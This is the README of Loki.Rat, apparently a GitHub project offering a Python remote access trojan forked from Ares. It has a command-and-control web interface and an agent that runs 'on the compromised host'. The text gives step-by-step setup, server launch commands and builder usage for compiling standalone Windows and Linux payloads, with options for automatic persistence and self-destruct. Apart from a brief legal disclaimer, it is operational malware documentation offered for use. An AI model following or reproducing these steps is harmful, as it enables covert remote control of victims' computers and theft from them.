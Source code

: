 # Loki.Rat :mouse:
     
    ||||||||||||||||||||||||||||||||||||||||||||00000000000|||||||||||||||||||||||||||||||||||||||||              (\
    ||||||||||||||||||||||||||||||||||||||||||||00000000000|||||||||||||||||||||||||||||||||||||||||               \\
    ||||||||||||||||||||||||||||||||||||||||||||00000000000|||||||||||||||||||||||||||||||||||||||||                ))
    ||||||||||||||||||||||||||||||||||||||||||||00000000000|||||||||||||||||||||||||||||||||||||||||               //
    ||||||||||||||||||||||||||||||||||||||||||||00000000000|||||||||||||||||||||||||||||||||||||||||        .-.   //  .-.
    ||||||||||||||||||||||||||||||||||||||||||||00000000000|||||||||||||||||||||||||||||||||||||||||       / 0 \-((=-/   \
    |||||||██▓        ▒█████      ██ ▄█▀    ██▓            ██▀███      ▄▄▄         ▄▄▄█████▓ |||||||       \      \\     /
    |||||||▓██▒       ▒██▒  ██▒    ██▄█▒    ▓██▒           ▓██ ▒ ██▒   ▒████▄       ▓  ██▒ ▓▒|||||||        '( ____))_ )'
    |||||||▒██░       ▒██░  ██▒   ▓███▄░    ▒██▒           ▓██ ░▄█ ▒   ▒██  ▀█▄     ▒ ▓██░ ▒░|||||||        .-'   //  '-.
    |||||||▒██░       ▒██   ██░   ▓██ █▄    ░██░           ▒██▀▀█▄     ░██▄▄▄▄██    ░ ▓██▓ ░ |||||||       /     ((      \
    |||||||░██████▒   ░ ████▓▒░   ▒██▒ █▄   ░██░    ██▓    ░██▓ ▒██▒    ▓█   ▓██▒     ▒██▒ ░ |||||||      |       *       |
    |||||||░ ▒░▓  ░   ░ ▒░▒░▒░    ▒ ▒▒ ▓▒   ░▓      ▒▓▒    ░ ▒▓ ░▒▓░    ▒▒   ▓▒█░     ▒ ░░   |||||||       \             /
    |||||||░ ░ ▒  ░     ░ ▒ ▒░    ░ ░▒ ▒░    ▒ ░    ░▒       ░▒ ░ ▒░     ▒   ▒▒ ░       ░    |||||||        \   |_w_|   /
    |||||||░ ░      ░ ░ ░ ▒     ░ ░░ ░     ▒ ░    ░        ░░   ░      ░   ▒        ░        |||||||        _)  \ ` /  (_
    |||||||░  ░       ░ ░     ░  ░       ░       ░        ░              ░  ░                |||||||      (((_ _/   \_ _)))
    |||||||░                                                                                 |||||||
    
Loki.Rat is a fork of the [Ares RAT](https://github.com/sweetsoftware/Ares), it integrates new modules, like the backdoor support for the android platform
Loki.Rat is a Python Remote Access Tool.

Warning: Only use this software according to your current legislation. Misuse of this software can raise legal and ethical issues which I don't support nor can be held responsible for.

Loki.Rat is made of two main programs:

    A Command aNd Control server, which is a Web interface to administer the agents
    An agent program, which is run on the compromised host, and ensures communication with the CNC

The Web interface can be run on any server running Python. The agent[Payload] can be compiled to native executables using pyinstaller.
# Setup 

Install The Loki.Rat 

Open a terminal windows and type this command :
 ```
     git clone https://github.com/TheGeekHT/Loki.Rat.git
     cd Loki.Rat
 ```
 Install the Python modules requirements:
 ```
     pip install -r requirements.txt
 ```
 Initialize the database:
 ```
     cd server
    ./loki.py initdb
 ```    
 In order to compile Windows agents on Linux, setup wine (optional):
 ```
     ./wine_setup.sh
 ```
 ## Server
 
 Run with the builtin (debug) server:
 ```
     ./loki.py runserver -h 1.0.1.0 -p 8080 --threaded
 ```
 Or run using gunicorn:
 ```
     gunicorn loki:app -b 1.0.1.0:8080 --threads 20
 ```
 The server should now be accessible on http://1.0.1.0:8080
 
 ## Payload
 Run the Python payload (update config.py to suit your needs):
 ```
     cd agent
     ./payload.py
 ```
 Build a new payload to a standalone binary:
 ```
     ./builder.py -p Linux --server http://localhost:8080 -o payload
     ./payload
 ```
 To see a list of supported options, run ./builder.py -h
 ```./agent/builder.py -h
usage: builder.py [-h] -p PLATFORM --server SERVER -o OUTPUT
                  [--hello-interval HELLO_INTERVAL] [--idle_time IDLE_TIME]
                  [--max_failed_connections MAX_FAILED_CONNECTIONS]
                  [--persistent]

Builds an Ares agent.

optional arguments:
  -h, --help            show this help message and exit
  -p PLATFORM, --platform PLATFORM
                        Target platform (Windows, Linux).
  --server SERVER       Address of the CnC server (e.g http://localhost:8080).
  -o OUTPUT, --output OUTPUT
                        Output file name.
  --hello-interval HELLO_INTERVAL
                        Delay (in seconds) between each request to the CnC.
  --idle_time IDLE_TIME
                        Inactivity time (in seconds) after which to go idle.
                        In idle mode, the agent pulls commands less often
                        (every <hello_interval> seconds).
  --max_failed_connections MAX_FAILED_CONNECTIONS
                        The agent will self destruct if no contact with the
                        CnC can be made <max_failed_connections> times in a
                        row.
  --persistent          Automatically install the agent on first run.
```
 Made with :yellow_heart: in HAITI 🇭🇹 

